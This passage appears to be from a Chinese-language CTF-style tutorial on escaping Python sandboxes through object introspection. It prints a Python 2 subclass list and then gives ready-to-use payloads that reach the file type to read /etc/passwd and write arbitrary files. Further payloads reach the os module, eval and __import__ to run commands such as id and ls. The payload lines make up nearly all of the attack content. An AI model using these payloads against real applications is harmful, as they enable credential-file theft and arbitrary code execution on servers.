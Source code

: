 ```javascript
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
```

可以看到有一个`<type 'file'>`

- 最终payload

```javascript
''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()
```

也可以是

```javascript
()..__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
object.__subclasses__()[40]('/etc/passwd').read()
```

写文件相仿

```javascript
''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evil.txt', 'w').write('evil code')
().__class__.__bases__[0].__subclasses__()[40]('/tmp/evil.txt', 'w').write('evil code')
object.__subclasses__()[40]('/tmp/evil.txt', 'w').write('evil code')
```

##### **任意代码执行**

思路和任意文件读取非常类似 , 仅需要拿到 os 模块就可以了 可用payload如下

```javascript
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()

# eval
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )
object.__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )

#__import__
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
```
